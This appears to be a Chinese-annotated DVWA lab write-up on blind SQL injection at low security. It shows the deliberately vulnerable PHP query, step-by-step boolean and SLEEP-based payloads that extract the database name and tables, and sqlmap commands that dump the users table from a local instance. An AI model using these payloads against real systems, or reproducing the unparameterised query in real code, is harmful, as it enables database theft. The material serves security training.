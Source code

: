 # SQL Injection (Blind) - Low

## View Source

```PHP
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

- [`mysqli_num_rows()`](https://www.php.net/manual/zh/mysqli-result.num-rows.php)
    - 回傳結果的有幾筆

## Code Review

- 相較於 *SQL Injection* 有 `die()` 和 `mysqli_error()` 等來將資料庫的錯誤訊息顯示出來，*Blind SQLi* 只能得知 *exist / MISSING* 兩種情況

## Answer

1. 先嘗試後端處理 *SQL* 語句的資料型態
    - E.g., 不合理
        - `1 AND 1=1 #` (*True*)
        - `1 AND 1=2 #` (*True*)
    - E.g., 合理 (過程可能需要經過一連串的嘗試來判斷)
        - `1' AND 1=1 #` (*True*)
        - `1' AND 1=2 #` (***False***)
        1. 透過有引號來猜測是字串型態
        2. 因為 `True AND True = True`，代表 `1'` 為 `True`，就可利用 `AND` 右側來構造語句
2. 猜測資料庫名稱長度
    1. `1' AND LENGTH(DATABASE())=1 #` (*False*)
    2. `1' AND LENGTH(DATABASE())=2 #` (*False*)
    3. `1' AND LENGTH(DATABASE())=3 #` (*False*)
    4. `1' AND LENGTH(DATABASE())=4 #` (***True***)
    - ***the name of the current database = "????"***
3. 逐字猜測資料庫名稱
    1. `1' AND ASCII(SUBSTR(DATABASE(), 1, 1))>97  #` (*True*)
    2. `1' AND ASCII(SUBSTR(DATABASE(), 1, 1))>98  #` (*True*)
    3. `1' AND ASCII(SUBSTR(DATABASE(), 1, 1))>99  #` (***True***)
    4. `1' AND ASCII(SUBSTR(DATABASE(), 1, 1))>100 #` (***False***)
    - ***the name of the current database = "d???"***
    - 可用二分搜來減少猜測次數
        1. `1' AND ASCII(SUBSTR(DATABASE(), 2, 1))>109  #` (*True*)
        2. `1' AND ASCII(SUBSTR(DATABASE(), 2, 1))>115  #` (*True*)
        3. `1' AND ASCII(SUBSTR(DATABASE(), 2, 1))>118  #` (*False*)
        4. `1' AND ASCII(SUBSTR(DATABASE(), 2, 1))=118  #` (***True***)
        - ***the name of the current database = "dv??"***
4. 猜測資料庫中表的數量
    - `1' AND (SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())=2 #` (***True***)
        - 暴雷，一樣要經過類似前三步驟的過程，以下同
5. 猜測表的名稱長度
    - `1' AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0, 1))=9 #` (***True***)
6. 猜測表的名字
    - `1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0, 1), 1, 1))>97 #` (***True***)
7. 爆破表的欄位數量、欄位名稱長度、欄位名稱、資料表內容等

### Time Based

- 需要考慮原本網頁的回應時間來決定 `SLEEP()` 參數，因為是本地比較快就不需要到 *10* 秒
- `1' AND SLEEP(10) #`
- `1' AND IF(LENGTH(DATABASE())=4, SLEEP(10), 1) #`

### sqlmap

- 先獲取 *Cookie* 不然會被重導向到登入頁面
    - E.g., *Console* 輸入 `document.cookie`
- [*sqlmap Usage*](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

### Example

```
1' AND LENGTH(VERSION())=24 #
1' AND IF(LENGTH(VERSION())=24, SLEEP(10), 1) #
```

```
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=t8cp4e35u05g9gnd8dqt4emp23; security=low" --batch --dbs
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=t8cp4e35u05g9gnd8dqt4emp23; security=low" --batch -D dvwa --tables
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=t8cp4e35u05g9gnd8dqt4emp23; security=low" --batch -D dvwa -T users --dump
sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=t8cp4e35u05g9gnd8dqt4emp23; security=low" --batch --banner
```

### Note

- 根據資料庫系統的不同，語法可能就會有落差